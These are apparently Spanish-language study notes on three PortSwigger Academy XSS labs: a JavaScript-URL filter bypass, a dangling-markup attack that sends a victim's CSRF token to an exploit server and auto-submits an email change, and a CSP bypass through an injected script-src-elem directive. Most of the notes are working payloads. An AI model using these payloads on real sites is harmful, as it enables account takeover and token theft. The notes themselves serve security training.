Al forzar la conversión del objeto window a cadena, conseguimos activar la ejecución sin llamar a la función explícitamente. Esta variante demuestra cómo JavaScript puede ser manipulado para lograr ejecución de código incluso en contextos altamente filtrados, sin necesidad de paréntesis, comillas ni llamadas directas.

Esta clase cierra el bloque sobre XSS en URLs JavaScript, mostrando cómo los vectores pueden disfrazarse como estructuras inofensivas y activarse en momentos controlados del flujo de navegación.


## Laboratorio: XSS reflejado en una URL de JavaScript con algunos caracteres bloqueados
EXPERTO

LAB
No resuelto
Este laboratorio refleja su entrada en una URL de JavaScript, pero no todo es lo que parece. Inicialmente, esto parece un desafío trivial; sin embargo, la aplicación está bloqueando algunos caracteres en un intento de prevenir ataques XSS.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert función con la cadena 1337 contenido en algún lugar del alert mensaje.



<div class="is-linkback">
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=1'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>

'},{x='

&%27},{x=%27

&%27},{x=%27


&%27'},throw onerror=alert,1337,{x=&%27

<div class="is-linkback">
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=1'},{''}).finally(_ => window.location = '/')">Back to Blog</a>
</div>




&%27},x=x=>{throw onerror=alert,1337},{x=%27


&%27},x=x=>{throw/**/onerror=alert,1337},toString=x,windows%2b%27%27,{x=%27







&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

<div class="is-linkback">
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=1&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:''}).finally(_ => window.location = '/')">Back to Blog</a>
</div>












# XSS con CSP estricto y marcado colgante [1/2]
En esta clase trabajamos con un entorno altamente restringido, donde una política CSP muy estricta impide la ejecución de código externo y bloquea las solicitudes a dominios no autorizados. A pesar de esto, existe una vulnerabilidad de XSS reflejado que podemos aprovechar mediante una técnica conocida como ataque de marcado colgante.

La estrategia se divide en dos fases. En la primera, construimos un vector que, al ser activado por la víctima, redirige el navegador a una URL que contiene una etiqueta HTML rota. Esta etiqueta induce al navegador a reinterpretar la estructura del documento, permitiendo la ejecución de un segundo script alojado en un servidor de explotación autorizado. Dicho script envía información sensible (como el token CSRF) al servidor de Burp Collaborator utilizando métodos que no violan las restricciones de la política CSP.

En la segunda fase, usamos ese token capturado para construir un formulario HTML malicioso que realiza una petición autenticada a la funcionalidad de cambio de correo del usuario. Este formulario es configurado con el token legítimo robado y se autoenvía cuando la víctima lo carga, cambiando su dirección a hacker@evil-user.net sin que lo note.

Este laboratorio muestra cómo una combinación de XSS, manipulación de estructura HTML y técnicas de evasión de CSP puede conducir a una toma de control de cuenta incluso en entornos con múltiples capas de protección.

## Laboratorio: XSS reflejado protegido por CSP muy estricto, con ataque de marcado colgante
EXPERTO

LAB
No resuelto
Este laboratorio utiliza un CSP estricto que bloquea las solicitudes salientes a sitios web externos.

Para resolver el laboratorio, primero realice un ataque de secuencias de comandos entre sitios que evite el CSP y exfiltre el token CSRF de un usuario víctima simulado utilizando Burp Collaborator. Luego debe cambiar la dirección de correo electrónico del usuario simulado a hacker@evil-user.net.

Debes etiquetar tu vector con la palabra "Clic" para inducir al usuario simulado a hacer clic en él. Por ejemplo:

<a href="">Click me</a>
Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter

Nota
Para evitar que la plataforma Academy se utilice para atacar a terceros, nuestro firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debe utilizar el servidor de exploits proporcionado y/o el servidor público predeterminado de Burp Collaborator.




### PROPIO CSRF TOKER

?email=prueba"></form><form class="login_form"  name="myform" action="https://exploit-0a2400b204217e7380b4022d011c006b.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click me</button




exploit?csrf=6YNiudpd7F7W6sD9nl2Qie3PGMKMsMQt 




### VICTIMA CSRF TOKER


<script>
location='https://0a820011041f7eca805f03e200c8007c.web-security-academy.net/my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0a2400b204217e7380b4022d011c006b.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click me</button';
</script>



HAP91N784CKgac4Dprdu3B9e6KIZ8dKg 





### ATAQUE ENVIO VICTIMA

<html>
<body>
<form action="https://0a820011041f7eca805f03e200c8007c.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="hacker@evil-user.net" />
<input type="hidden" name="csrf" value="HAP91N784CKgac4Dprdu3B9e6KIZ8dKg" />
<input type="submit"  value="Click me" />
</form>
<script>
history.pushState['', '', '/'];
document.forms[0].submit();
</script>
</body>
</html>

hacker@evil-user.net













# XSS con CSP y técnica de bypass
En esta clase de nivel experto trabajamos con un entorno protegido por una política CSP que impide la ejecución de scripts inyectados, a pesar de que existe una vulnerabilidad de XSS reflejado. El sistema refleja el contenido enviado por el usuario, pero la política de seguridad bloquea cualquier intento de ejecución directa.

La clave para resolver este laboratorio está en identificar que la cabecera CSP incluye una directiva de reporte que contiene un parámetro controlado por el usuario. Al modificar ese parámetro, es posible inyectar nuevas directivas dentro de la política CSP, lo que nos permite alterar su comportamiento desde fuera.

Utilizamos este vector para insertar una nueva directiva script-src-elem y habilitar inline scripts. Esta directiva tiene precedencia sobre la más restrictiva script-src, permitiendo la ejecución de código directamente dentro de elementos script sin necesidad de cargar archivos externos o definir hashes.

Este laboratorio demuestra cómo las políticas de seguridad mal configuradas, aunque parezcan estrictas, pueden ser manipuladas si exponen puntos de entrada en parámetros dinámicos. También subraya la importancia de mantener las directivas CSP completamente controladas desde el servidor y evitar cualquier forma de interpolación basada en parámetros del usuario.


## Laboratorio: XSS reflejado protegido por CSP, con derivación de CSP
EXPERTO

LAB
No resuelto
Este laboratorio utiliza CSP y contiene una vulnerabilidad XSS reflejada.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que evite el CSP y llame al alert función.

Tenga en cuenta que la solución prevista para este laboratorio solo es posible en Chrome.




<script>
  alert(1);
</script>



Navigated to https://0abf005a037690c980974e1d0034004e.web-security-academy.net/?search=%3Cscript%3E+++alert%281%29%3B+%3C%2Fscript%3E
?search=%3Cscript%3E+++alert%281%29%3B+%3C%2Fscript%3E:46 Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-EbQ8NvRvsSRl4kX/dsCcFOaG2QOaVivM1EJYsJYL6fA='), or a nonce ('nonce-...') is required to enable inline execution.











Request URL
https://0abf005a037690c980974e1d0034004e.web-security-academy.net/csp-report?token=
Request Method
POST
Status Code
200 OK
Remote Address
79.125.84.16:443
Referrer Policy
strict-origin-when-cross-origin



content-encoding
gzip
content-length
0
content-security-policy
default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
x-frame-options
SAMEORIGIN







?search=<script>alert(1);</script>&token=test;script-src-elem 'unsafe-inline'